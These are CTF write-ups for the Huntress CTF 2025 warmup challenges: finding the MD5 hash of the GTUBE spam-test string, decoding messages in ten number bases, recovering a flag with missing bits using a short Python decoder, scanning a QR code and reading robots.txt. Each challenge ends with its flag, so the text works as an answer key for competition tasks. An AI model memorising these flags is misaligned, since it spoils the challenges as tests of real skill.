# Huntress CTF 2025 - 👶 Spam Test  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 👶 Spam Test  
**Challenge prompt:**  
> Time to do some careful Googling... what's the MD5 hash of the Generic Test for Unsolicited Bulk Email (GTUBE) string?  
> Submit the hash wrapped within the flag{ prefix and } suffix to match the standard flag format.  

**Challenge category:** Warmups  
**Challenge points:** 10  

* * *  

## Steps to solve  

To solve this challenge, quick web-search was sufficient - as the desired MD5 checksum of the GTUBE string could be found on the Wikipedia page:  

  

**FLAG:** flag{6a684e1cdca03e6a436d182dd4069183}  


# Huntress CTF 2025 - 👶 Cover All Your Bases  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 👶 Cover All Your Bases  
**Challenge prompt:**  
> Can you make sense of all the different data below? Each one has a different representation!  
> Uncover the appropriate plaintext and submit the flags below! Do you know what all these ones and zeros mean?  

**Challenge category:** Warmups  
**Challenge points:** 10 (10 parts - each worth 1 point)  

* * *  

## Steps to solve  

### First mysterious data-block:  

```  
01000111 01110010 01100101 01100001 01110100 00100000 01110111 01101111 01110010 01101011 00100001  
00100000 01010100 01101000 01100001 01110100 00100000 01110111 01100001 01110011 00100000 01000010  
01100001 01110011 01100101 00100000 00110010 00101100 00100000 01100010 01100101 01110100 01110100  
01100101 01110010 00100000 01101011 01101110 01101111 01110111 01101110 00100000 01100001 01110011  
00100000 01100010 01101001 01101110 01100001 01110010 01111001 00101110 00100000 01001001 01110100  
00100000 01101111 01101110 01101100 01111001 00100000 01110101 01110011 01100101 01110011 00100000  
01110100 01110111 01101111 00100000 01110011 01111001 01101101 01100010 01101111 01101100 01110011  
00111010 00100000 00110000 00100000 01100001 01101110 01100100 00100000 00110001 00101100 00100000  
01110111 01101000 01101001 01100011 01101000 00100000 01101101 01100001 01101011 01100101 01110011  
00100000 01101001 01110100 00100000 01100101 01100001 01110011 01111001 00100000 01110100 01101111  
00100000 01110011 01110000 01101111 01110100 00101110 00100000 01000001 01101110 01111001 01110111  
01100001 01111001 00101100 00100000 01101000 01100101 01110010 01100101 00100111 01110011 00100000  
01111001 01101111 01110101 01110010 00100000 01100110 01101100 01100001 01100111 00111010 00100000  
01100110 01101100 01100001 01100111 01111011 00110110 00110111 00111000 01100001 01100011 00110100  
00110101 00110100 00111000 00110111 01100011 00111001 00111000 00110110 00110010 01100001 00110110  
01100011 00110010 01100011 00110000 00110000 01100001 00110001 01100001 01100110 01100110 01100101  
01100100 00111001 01100100 01100011 01111101  
```  

This one is quite obvious - at first glance anybody can tell that this is binary. To decode this data, I used cyberninja:  

  

**FLAG:** flag{678ac45487c9862a6c2c00a1affed9dc}  

### Second mysterious data-block  

```  
116 151 143 145 154 171 040 144 157 156 145 041 040 124 150 141 164 040 167 141 163 040 102 141 163  
145 040 070 054 040 157 162 040 157 143 164 141 154 056 040 111 164 040 165 163 145 163 040 144 151  
147 151 164 163 040 060 055 067 054 040 141 156 144 040 157 146 164 145 156 040 163 150 157 167 163  
040 165 160 040 151 156 040 146 151 154 145 040 160 145 162 155 151 163 163 151 157 156 163 040 157  
156 040 114 151 156 165 170 056 040 123 160 157 164 040 151 164 040 167 150 145 156 040 156 165 155  
142 145 162 163 040 150 141 166 145 040 154 145 141 144 151 156 147 040 060 163 056 040 110 145 162  
145 047 163 040 171 157 165 162 040 146 154 141 147 072 040 146 154 141 147 173 146 145 065 070 060  
145 060 065 145 065 062 067 146 062 060 064 062 061 062 071 060 066 060 065 070 060 071 143 141 145  
143 071 175  
```  

Another easy one - octal representation:  

  

**FLAG:** flag{fe580e05e527f20421290605809caec9}  

### Third mysterious data-block  

```  
089 111 117 032 099 114 097 099 107 101 100 032 105 116 033 032 084 104 097 116 032 119 097 115 032  
066 097 115 101 032 049 048 044 032 111 117 114 032 101 118 101 114 121 100 097 121 032 100 101 099  
105 109 097 108 032 115 121 115 116 101 109 046 032 073 116 032 114 117 110 115 032 102 114 111 109  
032 048 045 057 032 097 110 100 032 108 111 111 107 115 032 108 105 107 101 032 110 111 114 109 097  
108 032 110 117 109 098 101 114 115 046 032 069 097 115 121 032 116 111 032 105 100 101 110 116 105  
102 121 033 032 089 111 117 114 032 102 108 097 103 058 032 102 108 097 103 123 055 100 049 101 098  
050 101 048 055 055 054 099 100 055 099 053 099 055 056 100 102 048 049 048 049 048 102 051 048 101  
053 048 125  
```  

This one may be misleading (one may think that this is again octal), but look that it also contains `8` and `9` characters - so it must be decimal:  

  

**FLAG:** flag{7d1eb2e0776cd7c5c78df01010f30e50}  

### Fourth mysterious data-block  

```  
41 77 65 73 6f 6d 65 20 6a 6f 62 21 20 54 68 61 74 20 77 61 73 20 42 61 73 65 20 31 36 2c 20 6f 72  
20 68 65 78 61 64 65 63 69 6d 61 6c 2e 20 49 74 20 75 73 65 73 20 30 2d 39 20 61 6e 64 20 41 2d 46  
2c 20 6f 66 74 65 6e 20 77 69 74 68 20 70 72 65 66 69 78 65 73 20 6c 69 6b 65 20 30 78 2e 20 43 6f  
6d 6d 6f 6e 20 69 6e 20 6d 65 6d 6f 72 79 20 64 75 6d 70 73 20 61 6e 64 20 63 6f 6c 6f 72 20 63 6f  
64 65 73 2e 20 48 65 72 65 20 69 73 20 79 6f 75 72 20 66 6c 61 67 3a 20 66 6c 61 67 7b 64 33 63 62  
32 62 65 33 65 34 65 34 61 38 66 35 31 37 64 39 63 35 63 65 34 33 37 32 62 30 62 37 7d  
```  

`0` to `9` and `a` to `d` characters - it must be hexadecimal:  

  

**FLAG:** flag{d3cb2be3e4e4a8f517d9c5ce4372b0b7}  

### Fifth mysterious data-block:  

```  
I5XW6ZBAO5XXE2ZBEBKGQYLUEB3WC4ZAIJQXGZJAGMZCYIDPMZ2GK3RAOVZWKZBA  
NFXCAR3PN5TWYZJAIF2XI2DFNZ2GSY3BORXXEIDLMV4XGLRAJF2CA5LTMVZSAQJN  
LIQGC3TEEAZC2NZOEBEWMIDZN52SA43FMUQGY33UOMQG6ZRAOVYHAZLSMNQXGZJA  
NRSXI5DFOJZSAYLOMQQGI2LHNF2HGLBAORUGS3TLEBBGC43FGMZC4ICHMV2CA5DI  
MF2CAZTMMFTSCIDGNRQWO6ZZMJRDKYTCHBSWCNJQHBRGGZTCMM2TCYTEGVSTCMLF  
MZRDEOLDMN6Q====  
```  

Only uppercase letters and some digits - it is Base 32:  

  

**FLAG:** flag{9bb5bb8ea508bcfbc51bd5e11efb29cc}  

### Sixth mysterious data-block:  

```  
K19X CSUEWQE24EBWE3/DK848UAIECV44HECN34HECDZC0R61Q57%E  CH44M-DSCAB44V3E6$CE4404  
EQ34CYA8T8D3D3WE5UD-M8*+APR8IN85LEREDOEDIEC6$CI$5*C9T44LQE.OEOCCJ$DH8FX3EK447$C7  
WE4LE1Q5AVCD3DLWE1Q5CECRTC-QEC$D*3EBPEU34SUE*VD%3E.OEKFE*EDIQDA448%EC44Z CV3E6$C  
B44TVDCEC4WDI$5Y69O/E944E44PVDV1DE44PVDV3DVICYJCI-C4:6846:/6A46YICJOCGM64ECYJCKA  
7YJC2R6J-CZ2  
```  

Uppercase letters, numbers and symbols - it is Base 45:  

  

**FLAG:** flag{b5bef376027104b8c73dafbe95be47f4}  

### Seventh mysterious data-block:  

```  
V2VsbCBkb25lISBUaGF0IHdhcyBCYXNlIDY0LCBzdXBlciBjb21tb24gZm9yIGVuY29kaW5nIGRh  
dGEgaW4gZW1haWwgYW5kIHdlYiB0cmFmZmljLiBMb29rIGZvciBBLVosIGEteiwgMC05LCBwbHVz  
ICsgYW5kIC8sIGFuZCBzb21ldGltZXMgdGhlIHBhZGRpbmcgPSBzaWducyBhdCB0aGUgZW5kLiBG  
bGFnOiBmbGFne2NkMDE2NGZmNjQ3MjZmMjk3MmIyZDhmMmFjMDExOWRifQ==  
```  

Upper and lowercase letters, numbers and trailing `=` characters - it is the loved one - Base 64:  

  

**FLAG:** flag{cd0164ff64726f2972b2d8f2ac0119db}  

### Eight mysterious data-block:  

```  
<~:2+3L+EqaECEXg"BOQ!*G@>P86=FqH+?250+EqL5@qZupDf'',+DG^9A8,XfATD@"F<Ga8EbSs"FE9  
&W<+ohc6"FnCAM6>j@qfX:2'@'NEbSs"F<G^IF^]*&Gp%0M@<-I2+EqOABHTEd+CT.u+D#G$F!,[@FD)  
eG4t[sWBOr;a7RJ:Q3ANE6G%#E*@;^00F`V,8+CQC%Ec5AsATAo%CiF&r@V'X(.!]`R+DkP4+EM+*+Cf  
(nEa`I"ATDi7Ch[Zr+FYja?n<FI/0JkO+FP[k+A$/fH#IhG+Co%nDe*F"+Cf>,E,8rsDK?q/@W-C2+DG  
_:@;KXg+EMgF@W-((/0K"XBlmiu+EV:.+@9LXAN2OiG%#E*@;^0>+@^0UB0%/ICggt'@5K\q@:_,Q2D[  
<IA2uM-1h/C&AN)S+@P_LS2.U<.I/~>  
```  

Right... `<~` - Base 85:  

  

**FLAG:** flag{a414ae096381d9594c58e785b3c95dfb}  

### Ninth mysterious data-block:  

```  
@D_<sB5GVmj-;A[GD:PIptd9#KgRoG![3\gx4mcIUAiYA8M=E_=UOU5S$HqE$p<KHnvkV66}Q?tqB]P)  
Dy\4O\cT$^qE;BG\LX&pVXaZ$Tq0,'1:I3jzOY4Rs}8iY(1.GjE2RDb#yuj-*n10I1S\d:W-#pm0',!e  
D:H4sK'c@^jAiC%1K}1^V65i/Upa*U(mEU'(Va'b/nt_*vgYH.^_V_Td5AgNoIWlD9jvOZ3oKhm/WwX+  
-GHriuce$TlHB+#)E]kGisTc:ehwoA<RF;gx-ld->om0iC&$I3SXV_'bF.gOk[#-H,1kv93JUpCu&I-r  
4c^^pu+!?9iXkKdk6,1cPeWN.@E?CO  
```  

OMG, whole ASCII-printable set is here - this must be Base 92.  

I stripped the newlines, other whitespaces, and decoded the string as `Base92` at <https://besku.com/base-decoder>  

  

**FLAG:** flag{0c97042d855d7b353dc87c91ea902129}  

### Tenth mysterious data-block:  

```  
𖡅驣ꍬ𐙥啴𒁪噢褠陨啴陷啳陂驳欠樵欳唬鵷顩啨陣啮陭啰𒁴𐘠陥ꍲ啹𔑥𓁥啹𐙕顩饯啥鵣𓁡顡驴捲縠啦𒁹啵驳啥鹷饬ꔠ𖡩𓅥𒀠啦饯啤ꍧ𒅹𓅨  
阠饮𓄠ꕹ𒁢𓅬唬𒁹啵𓁡啥𓁰靯靡𖥬ꌠ𒁯鹫鱮阠啴鵴𓅩售驈驲鸠啳𒁹𓁵鬠𐙩ꍡ鬠陬潧鬠陬𠅧樴昷椷餵饣餴欱浦此敦污饦魡昷朵頸ᕽ  
```  

The hell is that? I struggled here a bit - thought that maybe steganography was used to hide the flag, or maybe that each UTF16 char could be divided into two UTF-8 chars. But no - this challenge mentions "Cover All Your Bases".  

I used <https://www.better-converter.com/Encoders-Decoders/Base65536-Decode> to decode:  

  

**FLAG:** flag{4571745dcd4d16f8d6f0a7fdaf71528c}  

# Huntress CTF 2025 - 👶 Just a Tiny Bit  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 👶 Just a Tiny Bit  
**Challenge prompt:**  
> If just a little bit were to go missing... would it really even matter?  

**Challenge category:** Warmups  
**Challenge points:** 10  

* * *  

## Steps to solve  

Given binary:  

```  
11001101101100110000111001111111011011001011000110110011011001111000110110001011011001110011100001  
11001011100010110010011001100110010110010111001010110011011000111001010110011011100001110010110101  
1100100011010101110010110110011011011001000111001011001111001101111101  
```  

Flag should be in the following format as per what was written in the CTF rules `Flags for this competition will follow the format: `flag\{[0-9a-f]{32}\}.`  

That means we are looking for 38 characters, 8 bits per character - in total 304 bits.  

Currently we have 268 bits. 36 missing.  

I discovered that every 8th bit is missing, as:  
`f` in binary is `01100110`, but only `1100110` can be found  
`l` in binary is `01101100`, but only `1101100` can be found.  

you get the drill...  

I used the following Python-script to recover the flag (it can also be found in the `./Just a Little Bit/` directory):  

```python  
import sys  

def binary_file_to_text(input_file, output_file=None):  
    data = input_file.replace('\n', '').replace(' ', '')  
    # Split into 7-bit chunks  
    binary_data = [data[i:i+7] for i in range(0, len(data), 7) if len(data[i:i+7]) == 7]  
    # Prepend "0" to each chunk  
    text = ''.join([chr(int('0' + b, 2)) for b in binary_data])  
    if output_file:  
        with open(output_file, 'w') as out:  
            out.write(text + '\n')  
    else:  
        print(text)  

if __name__ == "__main__":  
    if len(sys.argv) < 2:  
        print("Usage: python justALittleBit.py <binary_file> [output_file]")  
    else:  
        with open(sys.argv[1], 'r') as f:  
            data = f.read()  
        binary_file_to_text(data, sys.argv[2] if len(sys.argv) > 2 else None)  
```  

  

**FLAG:** flag{2c33c169aebdf2ee31e3895d5966d93f}  

# Huntress CTF 2025 - 👶 QRception  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 👶 QRception  
**Challenge prompt:**  
> Wow, that's a big QR code! I wonder what it says!  

**Challenge category:** Warmups  
**Challenge points:** 10  

* * *  

## Steps to solve  

Use a QR scanner of your choice, and scan the following:  

  

After scanning:  

  

After scanning, the flag was successfully recovered.  

**FLAG:** flag{e1487f138f885bfef64f07cdeac96908}  

# Huntress CTF 2025 - 👶 RFC 9309  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 👶 RFC 9309  
**Challenge prompt:**  
> Sorry. You know every CTF has to have it. 🤷  

**Challenge category:** Warmups  
**Challenge points:** 10  

* * *  

## Steps to solve  

Visiting `/robots.txt` od the CTF web-instance revealed flag in the 1010 line of response:  

  

**FLAG:** flag{aec1142c199aa5d8ad0f3ae3fa82e13c}  

# Huntress CTF 2025 - 🐞 Verify You Are Human  

